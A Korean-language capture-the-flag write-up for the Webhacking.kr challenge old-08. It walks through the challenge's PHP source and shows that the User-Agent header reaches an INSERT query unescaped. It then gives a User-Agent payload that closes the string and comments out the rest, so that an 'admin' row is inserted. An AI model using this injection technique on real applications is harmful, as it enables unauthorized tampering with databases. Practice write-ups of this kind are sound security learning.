 ```yaml
---
title: ["[Webhacking.kr] old-08 (sqli - 35)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
```php
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
```

코드에서 사용된 주요 함수들을 정리해보자.  

* `trim()`: 문자열의 앞뒤 공백을 제거하는 함수
  ```php
  $agent = trim(" Mozilla/5.0 "); // "Mozilla/5.0"로 변환
  ```  

* `htmlspecialchars()`: 특수문자를 HTML 엔티티로 변환하여 XSS공격을 방지함
  ```php
  $text = "<script>alert(1)</script>";
  echo htmlspecialchars($text); // &lt;script&gt;alert(1)&lt;/script&gt; 출력
  ```

* `select count(id)`: 테이블의 id 컬럼의 총 행 수를 반환  

* `addslashes()`: `'`, `"`, `\`, `%00` 앞에 `\`를 추가하여 escape하는 함수
  
* `htmlentities()`: `htmlspecialchars`와 비슷하지만 더 많은 문자를 HTML 엔티티로 변환


## Analysis

```sql
select count(id) from chall8
select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'
insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')
```  

3개의 쿼리문이 있다.  
첫번째 쿼리문은 인젝션 포인트가 없고, 두번째 쿼리문의 `addslashes`는 상당히 강력한 함수이다.  
`addslashes` 보다 더 안전한 방식이 많지만, CTF문제를 풀때 `addslashes`를 우회하는 의도의 문제는 본 적이 없다.  

세번재 쿼리문은 인젝션 포인트가 있다.  
두번째 쿼리문처럼 `agent`를 `addslashes`했다면 상당히 어려운 문제가 됐거나 해결이 불가능할 수 있었다.  
하지만, `$agent=trim(getenv("HTTP_USER_AGENT"));` trim만 한 문자열이 들어며, `User-Agent`는 쉽게 조작할 수 있으므로 인젝션이 가능하다.  


## Payload

`User-Agent`를 `test','1.1.1.1','admin')#`로 설정하고 페이지에 접속하면 insert 쿼리문이 실행된다.  
```sql
insert into chall8(agent,ip,id) values('test','1.1.1.1','admin')#','ip','guest')
```  
`#`을 이용해 뒷부분을 주석처리하고, 원하는 데이터를 insert한다.

`User-Agent`를 `test`로 설정하고 접속하면,  
```sql
select id from chall8 where agent='test'
```  
쿼리문이 요청되며, 방금 insert한 데이터가 출력된다.